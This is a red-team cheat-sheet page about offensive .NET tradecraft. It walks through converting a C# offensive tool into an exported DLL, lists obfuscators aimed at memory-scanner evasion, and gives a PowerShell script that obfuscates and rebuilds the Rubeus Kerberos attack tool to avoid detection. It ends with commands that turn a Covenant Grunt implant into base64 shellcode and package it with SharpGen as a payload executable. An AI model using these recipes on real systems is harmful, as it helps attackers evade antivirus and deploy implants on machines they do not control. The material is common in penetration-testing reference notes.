 # .NET Assembly




## Patch Environment.Exit

- [https://www.mdsec.co.uk/2020/08/massaging-your-clr-preventing-environment-exit-in-in-process-net-assemblies/](https://www.mdsec.co.uk/2020/08/massaging-your-clr-preventing-environment-exit-in-in-process-net-assemblies/)
- [https://www.outflank.nl/blog/2024/02/01/unmanaged-dotnet-patching/](https://www.outflank.nl/blog/2024/02/01/unmanaged-dotnet-patching/)




## C\# to Unmanaged DLL

* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![DllExport Configuration](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}




## .NET Obfuscators

- [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)
- [https://github.com/Flangvik/ObfuscatedSharpCollection](https://github.com/Flangvik/ObfuscatedSharpCollection)
- [https://www.r-tec.net/r-tec-blog-net-assembly-obfuscation-for-memory-scanner-evasion.html](https://www.r-tec.net/r-tec-blog-net-assembly-obfuscation-for-memory-scanner-evasion.html)

Hide command line by overwriting `args` to read values from a text file:

```csharp
string line = File.ReadLines("cmd.txt").FirstOrDefault();
args = line.Split(' ');
```



### Tools

- [https://github.com/yck1509/ConfuserEx](https://github.com/yck1509/ConfuserEx)
- [https://github.com/XenocodeRCE/neo-ConfuserEx](https://github.com/XenocodeRCE/neo-ConfuserEx)
- [https://github.com/dr4k0nia/XorStringsNET](https://github.com/dr4k0nia/XorStringsNET)
- [https://github.com/0xb11a1/yetAnotherObfuscator](https://github.com/0xb11a1/yetAnotherObfuscator)


#### InvisibilityCloak

- [https://github.com/h4wkst3r/InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak)

```
PS > wget https://github.com/h4wkst3r/InvisibilityCloak/raw/main/InvisibilityCloak.py -o InvisibilityCloak.py
PS > git clone https://github.com/GhostPack/Rubeus
PS > python .\InvisibilityCloak.py -d .\Rubeus\ -n (-join ((65..90) + (97..122) | Get-Random -Count 16 | % {[char]$_})) -m reverse
PS > cd Rubeus
PS > devenv /build Release .\ChOVuwPZcNQmXtKF.sln
```

{% code title="InvisibilityCloak.ps1" %}
```powershell
$repo = "GhostPack/Rubeus"

$cloak = "C:\Users\user\Desktop\Tools\InvisibilityCloak.py"
$devenv = "C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\devenv.com"

$target = $repo.Split('/')[1]
$obf = -join ((65..90) + (97..122) | Get-Random -Count 16 | % {[char]$_})
git clone "https://github.com/$repo" "C:\Windows\Temp\$target"
python $cloak -d "C:\Windows\Temp\$target" -n $obf -m reverse
& $devenv /build Release "C:\Windows\Temp\$target\$obf.sln"
mv "C:\Windows\Temp\$target\$obf\bin\Release\$obf.exe" "\\vmware-host\Shared Folders\share-host\$obf.exe"
#Remove-Item -Recurse -Force "C:\Windows\Temp\$target"
```
{% endcode %}




## SharpSploit

- [https://github.com/cobbr/SharpSploit](https://github.com/cobbr/SharpSploit)
- [https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/SharpSploit%20-%20Quick%20Command%20Reference.md](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/SharpSploit%20-%20Quick%20Command%20Reference.md)



### SharpGen

- [https://github.com/cobbr/SharpGen](https://github.com/cobbr/SharpGen)
- [https://cobbr.io/SharpGen.html](https://cobbr.io/SharpGen.html)


#### Execution.ShellCode

```
$ ~/tools/PEzor/deps/donut/donut -i GruntHTTP.exe -o grunt.bin
$ echo -n 'var shellcode = Convert.FromBase64String("' > shellcode.txt
$ echo -n `base64 -w0 grunt.bin` >> shellcode.txt
$ echo '");' >> shellcode.txt
$ echo 'ShellCode.ShellCodeExecute(shellcode);' >> shellcode.txt
$ ~/.dotnet/dotnet bin/Debug/netcoreapp2.1/SharpGen.dll -f payload.exe -s shellcode.txt -c Shell -d net40
```

